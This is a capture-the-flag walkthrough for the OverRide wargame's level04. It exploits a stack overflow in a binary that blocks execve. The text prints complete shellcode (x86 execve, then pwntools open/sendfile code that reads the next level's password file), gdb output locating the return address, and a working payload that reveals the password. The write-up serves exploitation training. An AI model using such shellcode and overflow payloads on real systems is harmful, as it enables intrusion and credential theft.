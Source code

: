 # Walkthrough level04

The binary create a fork and gets some chars in a buffer of 128 chars.  
We don't have function who run a shell or print the flag so we need to use a
shellcode.  
Let's try with the shellcode from the others levels.

```bash
level04@OverRide:~$ python -c'print("\x90" * 72 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "a" * 56 + "\xff\xff\xd6\xb0"[::-1])' | ./level04
Give me some shellcode, k
no exec() for you
```

We can see in the code there are a check on the syscall number (11 is execve).  

With pwntools we try to generate a shellcode without `execve`.

```bash
$> pwn shellcraft -f a i386.linux.cat "/home/users/level05/.pass"
    /* push '/home/users/level05/.pass\x00' */
    push 0x73
    push 0x7361702e
    push 0x2f35306c
    push 0x6576656c
    push 0x2f737265
    push 0x73752f65
    push 0x6d6f682f
    /* open(file='esp', oflag='O_RDONLY', mode='edx') */
    mov ebx, esp
    xor ecx, ecx
    /* call open() */
    push SYS_open /* 5 */
    pop eax
    int 0x80
    /* sendfile(out_fd=1, in_fd='eax', offset=0, count=0x7fffffff) */
    push 1
    pop ebx
    mov ecx, eax
    xor edx, edx
    push 0x7fffffff
    pop esi
    /* call sendfile() */
    xor eax, eax
    mov al, 0xbb
    int 0x80

$> pwn shellcraft -f d i386.linux.cat "/home/users/level05/.pass"
\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe3\x31\xc9\x6a\x05\x58\xcd\x80\x6a\x01\x5b\x89\xc1\x31\xd2\x68\xff\xff\xff\x7f\x5e\x31\xc0\xb0\xbb\xcd\x80
```

Now find the offset (buffer start at `$esp + 0x20`):

```bash
(gdb) x/xw $esp + 0x20
0xffffd680:     0x080482e0
(gdb) x/64xw $esp
0xffffd660:     0x00000001      0x00000001      0x00000000      0xf7e2fe44
0xffffd670:     0x00000b80      0x00000000      0xf7fdc714      0x00000000
0xffffd680:     0x080482e0      0x0804a010      0x000001a4      0xf7fd32e8
0xffffd690:     0xf7fd3000      0xf7e356e4      0xf7e39194      0x08048210
0xffffd6a0:     0x00000001      0x08049ff4      0x00000000      0x00000001
0xffffd6b0:     0xffffd6e8      0xf7ff0a50      0x00000000      0xffffd6e8
0xffffd6c0:     0x08049ff4      0x00000000      0xf7ee3ee2      0x080486c6
0xffffd6d0:     0x0000003c      0x0804868f      0x00000001      0x08048485
0xffffd6e0:     0xf7fcf3e4      0x00000016      0x00000001      0x08048882
0xffffd6f0:     0x00000001      0xffffd7b4      0xffffd7bc      0xf7e5ede5
0xffffd700:     0xf7feb620      0x00000000      0x08048839      0xf7fceff4
0xffffd710:     0xf7fceff4      0x00000000      0x00000000      0xf7e45513
0xffffd720:     0x00000001      0xffffd7b4      0xffffd7bc      0xf7fd3000
0xffffd730:     0x00000000      0xffffd71c      0xffffd7bc      0x00000000
(gdb) i f
Stack level 0, frame at 0xffffd720:
 eip = 0x80486db in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
```

The offset before eip is 156. Try to exploit it:

```bash
level04@OverRide:~$ python -c 'print "\x90" * 60 + "\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe3\x31\xc9\x6a\x05\x58\xcd\x80\x6a\x01\x5b\x89\xc1\x31\xd2\x68\xff\xff\xff\x7f\x5e\x31\xc0\xb0\xbb\xcd\x80" + "B" * 36 + "\xff\xff\xd6\xa0"[::-1]' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
